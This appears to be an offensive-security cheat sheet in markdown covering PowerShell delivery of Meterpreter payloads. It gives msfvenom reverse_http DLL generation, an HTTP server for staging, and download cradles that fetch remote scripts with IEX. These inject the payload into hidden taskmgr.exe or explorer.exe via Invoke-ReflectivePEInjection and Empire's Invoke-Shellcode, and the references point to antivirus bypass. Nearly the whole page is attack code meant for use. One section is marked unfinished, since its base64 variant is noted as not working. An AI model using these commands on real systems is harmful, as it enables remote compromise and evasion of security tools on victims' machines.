 # Crafting Manually

## 01 - Powershell Scripts

### 1.1 - Reflective DLL Injection

#### 1.1.1 - Simple Reflective DLL Injection

`$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=80 exitfunc=thread -f dll -o shellcode.dll`

`$ sudo python -m http.server 80`

`$ cat download-cradle.ps1`

---

```powershell
Start-Process -WindowStyle hidden -FilePath taskmgr.exe

$bytes = ((New-Object Net.WebClient).DownloadData("http://<IP>/shellcode.dll"))

IEX((New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/charnim/Invoke-ReflectivePEInjection.ps1/main/Invoke-ReflectivePEInjection.ps1"))

$procid = (Get-Process -Name taskmgr).Id

Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

#### 1.1.2 - Reflective DLL Injection with encoded base64 shellcode DLL

TODO: Figure out the base64 encoding problem with DLL files

`$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=80 EXITFUNC=thread -f dll -o shellcode.dll`

`$ pwsh`

`PS /home/user> $file = 'shellcode.bin'`

`PS /home/user> [byte[]] $raw_bytes = [IO.File]::ReadAllBytes($file)`

`PS /home/user> $encoded = [Convert]::ToBase64String($raw_bytes)`

`PS /home/user> [IO.File]::WriteAllBytes('shellcode-encodedb64.txt', $encoded)`

`PS /home/user> exit`

`$ sudo python -m http.server 80`

`$ cat download-cradle.ps1`

---

```powershell
Start-Process -WindowStyle hidden -FilePath taskmgr.exe  
  
$bytes = ((New-Object Net.WebClient).DownloadData("http://<IP>/shellcode-encodedb64.txt"))  
  
$decoded = [Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($bytes))  
  
IEX((New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/charnim/Invoke-ReflectivePEInjection.ps1/main/Invoke-ReflectivePEInjection.ps1"))  
  
$procid = (Get-Process -Name taskmgr).Id  
  
Invoke-ReflectivePEInjection -PEBytes $decoded -ProcId $procid
```

### 1.2 - Invoke-Shellcode

```powershell
IEX((New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module_source/code_execution/Invoke-Shellcode.ps1"))

$procid = (Get-Process -Name explorer).Id

Invoke-Shellcode -ProcessId $procid -Shellcode @(<ps1_shellcode_format>)
```

## References

- [Invoke-ReflectivePEInjection](https://github.com/charnim/Invoke-ReflectivePEInjection.ps1)

- [Adamn Chester (XPN) YouTube Video: Bypass AV with Invoke-ReflectivePEInjection](https://www.youtube.com/watch?v=byMBx4q-vYo)

- [sRDI](https://github.com/monoxgas/sRDI)